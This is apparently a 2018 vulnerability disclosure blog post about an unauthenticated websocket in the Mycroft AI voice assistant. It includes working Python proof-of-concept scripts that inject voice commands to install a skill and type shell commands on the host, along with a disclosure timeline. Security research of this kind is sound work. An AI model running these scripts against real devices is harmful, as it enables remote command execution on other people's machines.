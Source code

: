 # "Hey Mycroft, we've got a Problem"

Getting "Zero Click" Remote Code Execution in Mycroft AI vocal assistant

![Mycroft AI](https://dmtyylqvwgyxw.cloudfront.net/instances/132/uploads/images/custom_image/image/466/normal_9b94a225-8605-4d78-82d2-4c59f6981c57.jpg)

## Introduction

During my journey contributing to open source I was working with my friend [Matteo De Carlo](https://github.com/portaloffreedom) on an [AUR Package](https://git.covolunablu.org/portaloffreedom/plasma-mycroft-PKGBUILD) of a really interesting project called [Mycroft AI](https://mycroft.ai). It's an AI-powered vocal assistant started with a [crowdfunding campaign](https://www.kickstarter.com/projects/aiforeveryone/mycroft-an-open-source-artificial-intelligence-for) in 2015 and a [more recent one](https://www.indiegogo.com/projects/mycroft-mark-ii-the-open-voice-assistant#/) that allowed Mycroft to produce their Mark-I and Mark-II devices. It's also running on Linux Desktop/Server, Raspberry PI and will be available soon™ on [Jaguar Type-F](https://www.youtube.com/watch?v=6GHmzbXp_jY) and [Land Rover](https://mycroft.ai/blog/mycroft-welcomes-jaguar-land-rover-new-investor/)

## Digging in the source code

While looking at the [source code](https://github.com/MycroftAI/mycroft-core) I found an interesting point: [here](https://github.com/MycroftAI/mycroft-core/blob/1f4c98f29ceb6a7981474f1620441e43aa364d00/mycroft/messagebus/service/main.py#L28-L57)

```python
...
host = config.get("host")
port = config.get("port")
route = config.get("route")
validate_param(host, "websocket.host")
validate_param(port, "websocket.port")
validate_param(route, "websocket.route")

routes = [
        (route, WebsocketEventHandler)
]
application = web.Application(routes, **settings)
application.listen(port, host)
ioloop.IOLoop.instance().start()
...
```

it defines a websocket server that uses to get instructions from the remote clients (like the [Android one](https://github.com/MycroftAI/Mycroft-Android)). The settings for the websocket server are defined in [mycroft.conf](https://github.com/MycroftAI/mycroft-core/blob/aa594aebea99eebd0109ad013b71a2210f2b72f4/mycroft/configuration/mycroft.conf#L111-L117)

```json
// The mycroft-core messagebus' websocket
  "websocket": {
    "host": "0.0.0.0",
    "port": 8181,
    "route": "/core",
    "ssl": false
},
```

So there is a websocket server that doesn't require authentication that by default is exposed on `0.0.0.0:8181/core`. Let's test it 😉

```python
#!/usr/bin/env python

import asyncio
import websockets

uri = "ws://myserver:8181/core"
command = "say pwned"

async def sendPayload():
    async with websockets.connect(uri) as websocket:
        await websocket.send("{\"data\": {\"utterances\": [\""+command+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")

asyncio.get_event_loop().run_until_complete(sendPayload())
```

And magically we have an answer from the vocal assistant saying `pwned`!

Well, now we can have Mycroft pronounce stuff remotely, but this is not a really big finding unless you want to scare your friends, right?

![Trump WRONG](https://media1.tenor.com/images/8a4a99d3bd67ba8d9a025c36edf4a624/tenor.gif)

## The skills system

Digging deeper we can see that Mycroft has a skills system and a default skill that can install others skills (pretty neat, right?)

How is a skill composed? From what we can see from the documentation a default skill is composed by:

- `dialog/en-us/command.dialog` contains the vocal command that will trigger the skill
- `vocab/en-us/answer.voc` contains the answer that Mycroft will pronounce
- `requirements.txt` contains the requirements for the skill that will be installed with `pip`
- `__int__.py` contains the main function of the skill and will be loaded when the skill is triggered

## What can I do now?

I could create a malicious skill that when triggered runs arbitrary code on the remote machine, but unfortunately this is not possible via vocal command unless the URL of the skill is not whitelisted via the online website. So this is possible but will be a little tricky.

### So I'm done?

Not yet. I found out that I can trigger skills remotely and that is possible to execute commands on a remote machine convincing the user to install a malicious skill. I may have enough to submit a vulnerability report. But maybe I can do a bit better...

## Getting a remote shell using default skills

We know that Mycroft has some [default skills](https://github.com/MycroftAI/mycroft-skills) like `open` that will open an application and others that are whitelisted but not installed. Reading through to the list, I found a really interesting skill called `skill-autogui`, whose description says `Manipulate your mouse and keyboard with Mycroft`. **We got it!**

Let's try to combine everything we found so far into a PoC:

```python
#!/usr/bin/env python

import sys
import asyncio
import websockets
import time


cmds = ["mute audio"] + sys.argv[1:]
uri = "ws://myserver:8181/core"


async def sendPayload():
    for payload in cmds:
        async with websockets.connect(uri) as websocket:
            await websocket.send("{\"data\": {\"utterances\": [\""+payload+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")
            time.sleep(1)

asyncio.get_event_loop().run_until_complete(sendPayload())
```

Running the exploit with `python pwn.py "install autogui" "open xterm" "type echo pwned" "press enter"`  allowed me to finally get a command execution on a Linux machine.

![PoC](PoC.gif)

![WASSUUUUUUUUUUUUUUUUUUUUUUUUP](https://thumbs.gfycat.com/PleasedEducatedGalah-size_restricted.gif)

## _Notes_

- `open xterm` was needed because my test Linux environment had a DE installed, on a remote server the commands will be executed directly on TTY so this step is not nesessary.
- The skill branching had a [big change](https://mycroft.ai/blog/skill-branching-18-02/) and now some skills are not (yet) available (autogui is one of them) but this is not the real point. Mycroft has skills to interact with domotic houses and other services that can still be manipulated (the lack of imagination is the limit here). The vulnerability rediseds in the lack of authentication for the ws.

## Affected devices

All the devices running Mycroft <= ? with the websocket server exposed (Mark-I has the websocket behind a firewall by default)

## Interested in my work?

Follow me on:

- Twitter: `@0x7a657461`
- Linkedin: [https://linkedin.com/in/0xzeta](https://linkedin.com/in/0xzeta)
- GitHub: [https://github.com/Nhoya](https://github.com/Nhoya)

## Timeline

- 08/03/2018 Vulnerability found
- 09/03/2018 Vulnerability reported
- 13/03/2018 The CTO answered that they are aware of this problem and are currently working on a patch
- 06/06/2018 The CTO said that they have no problem with the realease of the vulnerability and will add a warning to remember the user to use a firewall `¯\_(ツ)_/¯`
- 09/06/2018 Public disclosure
